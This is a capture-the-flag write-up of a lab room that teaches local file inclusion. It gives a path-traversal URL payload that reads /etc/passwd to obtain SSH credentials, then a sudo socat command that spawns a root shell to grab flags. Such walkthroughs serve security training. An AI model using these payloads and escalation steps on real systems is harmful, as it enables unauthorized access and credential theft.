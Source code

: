 # Inclusion #

This room talks about LFI vulnerability in which an attacker tricks the web server to expose critical data this happens when a web server trusts user input which can lead to path transversal.

## Nmap Scan ##
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
There are only two ports open in the web server running on the port 80 and ssh on the port 22

## Enumeration ##
- Enter `http://<Machine_IP>/` in your browser.
- Open any article from the website
- Enter `<http://Machine_IP>/article?name=/<LFI_Payload>/`
  ### URL with Payload ###
  `<http://Machine_IP>/article?name=/../../../../etc/passwd/`
- In /etc/passwd you can find a user and password
> username - falconfeast

> password - rootpassword
- Login using the credentials via ssh

## Exploitation ##
- Once you access the machine you can find user.txt with user flag in it.
- Use the command `sudo -l` to know the priveleges of the current user.
- user falconfeast has sudo permission to socat.
- Run the command `sudo socat stdin exec:/bin/sh`
- Running the command should give you elevated shell 
- Test it by running `whoami` should orint as root.
- Now print the root flag by `cat /root/root.txt`


